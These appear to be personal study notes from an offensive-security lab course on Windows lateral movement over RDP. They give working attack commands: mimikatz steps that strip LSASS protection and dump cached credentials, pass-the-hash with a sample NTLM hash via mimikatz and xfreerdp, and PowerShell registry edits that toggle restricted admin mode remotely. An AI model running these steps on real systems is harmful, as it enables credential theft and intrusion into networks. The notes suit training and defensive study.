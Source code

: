 # Windows lateral movement

Psexec, WMI, DCOM, PSRemoting are the normal pathways to use stolen credentials

We will look at RDP and PsExec techniques

# Remote Desktop Protocol

Multi channel network protocol devveloped by Microsoft and is used for comunication between terminal servers and their clients.

It is commonly used in many corporate environments for remote administration using windows native remote Desktop connection application

# lateral ovement with rdp

using rdektop in kali machine we will run mstsc.exe
and connect to appsrv01

> how is this going to happen in real time?


### caution

Connecting to a workstation with Remote Desktop will disconnect any existing
session. 
> The /admin flag allows us to connect to the admin session, which does not disconnect the current user if we perform the login with the same user.

using mimikatz to get the cached credentials

`privilege::debug`
`!+`
`!processprotect /process:lsass.exe /remove`
`sekurlsa::logonpasswords`

RD with restricted admin mode which allows sysadmin  to network logging with  as that user

Since we used restricted admin mode, no credentials have been cached, which helps mitigate
credential theft.
Restricted admin mode is disabled by default but the setting can be controlled through the
DisableRestrictedAdmin registry entry at the following path

`HKLM:\System\CurrentControlSet\Control\Lsa`

We will assume that we are already in possession of the admin user NTLM hash and are logged in
to the Windows 10 client as the dave user. We can then run mimikatz from an administrative
console and use the pth command to launch a mstsc.exe process in the context of the admin
user:

`privilege::debug`
`sekurlsa::pth /user:admin /domain:corpl /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"`

Even though we opened a session as admin, the dialog suggests we are
authenticating as dave. This error stems from passing the hash with Mimikatz

To demonstrate this, we will first disable the restricted admin mode on our appsrv01 target. We’ll
do this from the RDP session as the admin user we just created by executing the PowerShell
command in Listing 606.

```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name
DisableRestrictedAdmin
```

With restricted admin mode disabled, we’ll verify that we indeed can no longer log in by first
logging out of the RDP session on appsrv01 and immediately relaunching it from Mimikatz.

![](account_restrictions.png)


At this point, we are able to fully demonstrate our lateral movement. To re-enable restricted
admin mode, we are going to first launch a local instance of PowerShell on the Windows 10
machine in the context of the admin user with Mimikatz.

```
sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```

From this PowerShell prompt, we’ll use the Enter-PSSession cmdlet and supply the appsrv01
hostname as the -Computer argument. This will provide us with shell access to our target
machine.

```
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path
"HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
Exit

```

The restricted admin mode setting is updated instantly and we can once again use it to gain
access to the target.
It is worth noting that the xfreerdp RDP client,788 which is installed on a Kali system by default,
supports restricted remote admin connections as well.
We can demonstrate the previous example with the command shown in Listing 609. Keep in mind
that the target RDP port must be reachable from our Kali attacking machine.

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6
/cert-ignore
```

### 13.1.1.1 Exercises
1. Log in to the Windows 10 client as the offsec domain user. Use Mimikatz to pass the hash
and create an mstsc process with restricted admin enabled in the context of the dave user.
2. Repeat the steps to disable restricted admin mode and then re-enable it as part of the attack
through PowerShell remoting.

# Reverse RDP Proxying with Metasploit









